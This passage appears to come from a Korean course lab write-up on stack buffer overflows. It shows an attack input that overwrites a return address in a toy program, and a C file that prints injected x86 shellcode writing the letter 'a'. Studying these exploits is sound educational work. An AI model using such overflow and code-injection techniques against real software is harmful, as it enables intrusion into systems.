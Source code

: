 주소의 길이까지 합쳐서 총 32 bytes를 `f2`에 적어주었다.

그 후, `foo`의 시작 주소로 return 하도록 하여 "enter id"를 두 번 출력하게 바꿔주었다.

```bash
$ gcc -o inp-write2 inp-write2.c
$ ./inp-write2 > attack-inp2
$ xxd attack-inp2
0000000: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
0000010: 7172 7374 7576 7778 797a 4142 9c84 0408  qrstuvwxyzAB....
$ ./f2 < attack-inp2
id location:0xffffd4f0. enter id
you entered abcdefghijklmnopqrstuvwxyzAB�
id location:0xffffd4f4. enter id
you entered efghijklmnopqrstuvwxyzAByzAB
세그멘테이션 오류 (core dumped)
```

### 3) Make an attack input file, `attack-inp3`, that contains attack code using `inp-write3.c` below. Attack `f2` with this input file. `f2` should execute the injected code and prints `a`. The return address in `inp-write3.c` should be changed appropriately. You also need `-z execstack` option when compiling `f2.c` to allow executable stack. The `scanf()` in `f2.c` stops reading bytes when it sees a whitespace (`0x09`, `0x0a`, `0x0b`, `0x0c`, `0x0d`, or `0x20`), so make sure your `attack-inp` does not contain any of these. Also make sure the address of `id` does not contain null byte (`0x00`) since `inp-write3.c` can't handle it correctly. If it contains any of them, you should change the size of `id[]` to avoid them.

```bash
$ gcc -m32 –o f2 –z execstack f2.c
$ ./f2
id location:0xffffd4f0. enter id
hello
you entered hello
program ends here
```

`inp-write3.c`:

```c
#include <stdio.h>
void main(){
   printf("\x6a\x61");         // push 0x61. to write ‘a’
   printf("\x89\xe6");         // mov esi, esp. buf location
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x04");         // mov al, 0x4  system call number for write()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xb3\x01");         // mov bl,  0x1  file number
   printf("\x89\xf1");         // mov ecx, esi
   printf("\x31\xd2");         // xor edx, edx
   printf("\xb2\x01");         // mov dl, 0x1  num of bytes to write
   printf("\xcd\x80");         // int 0x80. write(1, buf, 1). write 'a' in the screen.
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x01");         // mov al, 0x1  system call number for exit()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xcd\x80");         // int 0x80. exit(0)
   printf("\xf0\xd4\xff\xff"); // ret addr
}
```

